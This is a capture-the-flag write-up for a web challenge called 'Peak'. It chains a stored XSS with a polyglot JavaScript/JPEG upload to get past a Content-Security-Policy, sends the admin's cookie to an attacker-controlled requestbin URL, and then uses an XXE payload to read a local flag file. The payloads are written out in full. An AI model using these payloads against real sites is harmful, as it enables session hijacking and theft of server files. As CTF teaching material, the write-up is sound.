



# Peak

_**Keywords:** Stored XSS, XXE, CSP Bypass, Polyglot JavaScript/JPEG_


Peak is a web challenge that exhibits two crucial vulnerabilities also found in the [OWASP Top 10](https://owasp.org/www-project-top-ten/):
* Cross-Site Scripting (XSS)
* XML External Entities (XXE)

Upon user registration, an individual can store a message on the platform, which will later be reviewed by the admin.



However, the content entered into the "Message" field is not filtered, allowing the inclusion of scripts and malicious code.

Attempting to store a message with the following content:

```javascript
<script>alert(1);</script>
```

and inspecting it through the provided link reveals that the code is not executed.

This is due to the presence of the <code>Content-Security-Policy: script-src "self"</code> header in the response, preventing the execution of inline scripts. To bypass this mitigation, we leverage the image upload functionality to load a JPEG file containing JavaScript code (Polyglot JavaScript/JPEG), (***Polyglot JavaScript/JPEG***), as detailed [here](https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs).

Using the hexadecimal editor **GHex**, we create the _'xss.jpg'_ image containing the following JS code:

```javascript
location.href="https://en6dm14fuwglk.x.pipedream.net/"+document.cookie
```

This allows us to retrieve the admin's cookie (https://en6dm14fuwglk.x.pipedream.net/ is an endpoint controlled directly by us, generated with **requestbin**).

Next, we upload a message with the _'xss.jpg'_. image. It is stored on the server with the path _/uploads/&lt;id&gt;_. This step enables us to upload the file with the required code. The last step is to invoke it.

We load a new message, this time inserting the following JS code into the "Message" field:

```javascript
<script charset="ISO-8859-1" src="/uploads/<id>"></script>
```

Done!\
When the admin opens this message, the code embedded in the image is invoked, and their session cookie is sent to our endpoint.

After obtaining the admin's session and accessing their profile, we discover a new "Edit Map" feature utilizing the XML language.



Here, we exploit an [XXE vulnerability](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files). By sending the following payload:

```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<markers>
    <marker>
        <lat>47.0748663672</lat>
        <lon>12.695247219</lon>
        <name>&xxe;</name>
    </marker>
</markers>
```

we successfully retrieve the sought-after flag!

